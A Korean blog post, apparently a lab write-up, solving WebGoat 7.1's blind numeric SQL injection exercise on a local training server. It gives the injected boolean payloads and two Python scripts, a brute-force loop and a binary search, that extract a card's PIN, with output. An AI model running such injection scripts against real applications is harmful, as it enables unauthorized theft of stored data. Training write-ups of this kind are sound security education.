 ```yaml
---
title: "Webgoat7.1 Blind Numberic SQL Injection"
layout: post
date: 2020-04-22
image: /assets/images/mark-img01.png
headerImage: false
tag:
- sql
- blind
- injection
- exploit
category: blog
author: pil9

---
```

 
![problem]({{site.url}}/images/blind_p.png){: class="center"}<figcaption class="caption">Blind sql injection 문제</figcaption>  
<br>
pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.

문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.
<br>
![problem]({{site.url}}/images/p2.png){: class="center"}
<figcaption class="caption">유효 pin값은 101부터</figcaption>
<br>
위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.  

결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.

가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.

<pre><code class = "language-sql">예시)
101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
</code></pre>

pin 값이 1000보다 클 경우에는 'Account number is valid'

10000보다 클 경우에는 'Invalid account number' 가 출력되므로

조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.

약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.

<pre><code class = "language-python">import requests

cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
attack = "101 and (select pin from pins where cc_number='1111222233334444')="

for i in range(1000,10000):

    params = {'account_number':attack+str(i)}

    r = requests.post(url,data=params,cookies=cookie)
    if 'Account number is valid.' in r.text:

        print ('Account Number:',i)
        exit()
</code></pre>

<pre><code class="language-python">//결과 값
Account Number: 2364
</code></pre>

추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.

<pre><code class="language-python">import requests

# 이진 탐색 알고리즘을 통한 flag 탐색 함수
def search(pin_data):
    start=0
    end = len(pin_data) -1
    while start <= end:
        mid = (start + end) // 2

        # 중간 값이 한개이면 flag
        if (end-start) == 2:
            return mid
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(mid) + ")"}
        res=s.post(url, data=data)
        
        if 'Account number is valid' in res.text:
            start = mid + 1
        else:
            end = mid -1

# 로그인 세션 처리는 첫번째 코드로 해도 상관없음
login_url = 'http://localhost:8080/WebGoat/j_spring_security_check'
login_data = {
    'username' : 'guest','password' : 'guest'
}
url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'

with requests.Session() as s:
    # 로그인 및 세션 저장(as s)
    res = s.post(login_url, data=login_data, verify=False, allow_redirects=False)
    
    # pin 초기 값 set
    pin=1
    
    # pin 자릿수 탐색
    for i in range(10):
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(pin) + ")"}
        res=s.post(url, data=data)
        if 'Invalid account number' in res.text:
            pin=int(pin/10)
            break
        pin=int(pin*10)
    
    # 이진 탐색을 위한 리스트 생성
    li = [i for i in range(pin,pin*10+1)]
    
    # 정상 pin 값 서칭
    flag = search(li)

    print("AC NUMBER :",flag)
                

</code></pre>

<pre><code class="language-python">//결과값
AC Number: 2364
</code></pre>




